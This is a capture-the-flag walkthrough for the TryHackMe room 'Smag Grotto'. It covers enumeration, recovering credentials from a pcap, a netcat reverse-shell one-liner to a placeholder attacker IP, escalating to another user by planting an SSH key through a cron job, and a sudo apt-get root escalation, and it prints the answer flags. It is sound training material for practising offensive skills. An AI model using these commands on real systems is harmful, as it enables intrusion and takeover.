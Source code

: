 ## Smag Grotto - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/smaggrotto)

**IP: 10.10.190.157**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Web <br>

**Tools Used**: Nmap, Ffuf, Wireshark<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting off with Nmap scan and Ffuf.

  ```
  nmap -sC -sV -T5 -p- 10.10.190.157

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
  |   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
  |_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Smag
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```

  ```
  ffuf -u http://10.10.190.157/FUZZ -w /usr/share/wordlists/dirb/common.txt

  .htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 48ms]
  .hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 1020ms]
  .htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 3025ms]
  index.php               [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 48ms]
  mail                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 48ms]
  server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 47ms]
  :: Progress: [4614/4614] :: Job [1/1] :: 843 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
  ```
  
- OK, so when you visit `/mail` directory, you will find a `.pcap` file, download it and open it in Wireshark. There is a POST request for `login.php`, right click on it and follow the HTTP stream in order to get the login page and credentials.

  ```
  POST /login.php HTTP/1.1
  Host: development.smag.thm
  User-Agent: curl/7.47.0
  Accept: */*
  Content-Length: 39
  Content-Type: application/x-www-form-urlencoded
  
  username=helpdesk&password=cH4nG3M3_n0w
  HTTP/1.1 200 OK
  Date: Wed, 03 Jun 2020 18:04:07 GMT
  Server: Apache/2.4.18 (Ubuntu)
  Content-Length: 0
  Content-Type: text/html; charset=UTF-8
  ```
  
- Perfect, now we have another endpoint `development.smag.thm` and credentials. After logging in you will have a option to inject commands, so prepare your reverse shells and let's go! Don't forget to add `development.smag.thm` to `/etc/hosts`.

---

## ⚙️ Shell Access

- Start a listener and use any reverse shell you like. For me classic bash one-liner didn't work, but this one did.

  ```
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] 7777 >/tmp/f

  nc -lvnp 7777                     
  listening on [any] 7777 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.190.157] 51680
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- Create a putty shell and start catching the flags.

---

## 🧍 User Privilege Escalation

- OK, so this is a bit tricky, you can't read neither flag as user `www-data` so we have to escalate few times. When it comes to Jake, I did some enumeration and our way to escalate is through cronjobs.

  ```
  www-data@smag:/home/jake$ cat /etc/crontab
  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file
  # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.
  
  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
  
  # m h dom mon dow user  command
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  *  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
  ```
  
- I also checked the backup file to see what it actually is and it's a an RSA public key.

  ```
  www-data@smag:/home/jake$ cat /opt/.backups/jake_id_rsa.pub.backup 
  ssh-rsa [SNIP!] kali@kali
  ```
  
- So right now, since cronjobs are reading Public RSA key and saving it to `/home/jake/.ssh/authorized_keys`, we are going to create a new pair of RSA keys and replace the current one with our keys and then login with SSH. Trust me, it's much simpler than it sounds.
  First we create set of keys.

  ```
  www-data@smag:/home/jake$ ssh-keygen -f /tmp/jake_key -N ""
  
  Generating public/private rsa key pair.
  Your identification has been saved in /tmp/jake_key.
  Your public key has been saved in /tmp/jake_key.pub.
  The key fingerprint is:
  SHA256:[SNIP!] www-data@smag
  The key's randomart image is:
  +---[RSA 2048]----+
  [SNIP!]
  +----[SHA256]-----+
  ```

- Now, since we created a new pair of keys now let's replace old public key with it. After replacing public key, change the permission of new key to 600 and wait for cronjobs to run. After a minute, login with SSH as `jake` using your newly created public key.

  ```
  backup a@smag:/home/jake$ cat /tmp/jake_key.pub > /opt/.backups/jake_id_rsa.pub.b

  chmod 600 /tmp/jake_key
  
  www-data@smag:/home/jake$ ssh -i /tmp/jake_key jake@localhost 
  Could not create directory '/var/www/.ssh'.
  The authenticity of host 'localhost (::1)' can't be established.
  [SNIP!]
  Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)
  
   * Documentation:  https://help.ubuntu.com
   * Management:     https://landscape.canonical.com
   * Support:        https://ubuntu.com/advantage
  
  Last login: Fri Jun  5 10:15:15 2020
  jake@smag:~$ whoami
  jake
  ```

- Alright, now we can read the first flag.

  ```
  jake@smag:~$ ls
  user.txt
  
  jake@smag:~$ cat user.txt 
  iusGorV7EbmxM5AuIe2w499msaSuqU3j
  ```

- Escalating to root is the next step.

---

## 👑 Root Privilege Escalation

- This one wasn't hard, `sudo -l` will do all the job, and you can find a one-liner exploit on GTFOBins. Of course, read the flag after escalating.

  ```
  jake@smag:~$ sudo -l
  Matching Defaults entries for jake on smag:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User jake may run the following commands on smag:
      (ALL : ALL) NOPASSWD: /usr/bin/apt-get
  
  
  jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
  # whoami
  root
  
  # id
  uid=0(root) gid=0(root) groups=0(root)
  
  # cat /root/root.txt
  uJr6zRgetaniyHVRqqL58uRasybBKz2T
  ``` 

---

## 🏁 Flags

- **User Flag**: `iusGorV7EbmxM5AuIe2w499msaSuqU3j`
- **Root Flag**: `uJr6zRgetaniyHVRqqL58uRasybBKz2T`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Remembering how to escalate with SSH keys...`

- What did I learn?
  `Nothing new`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
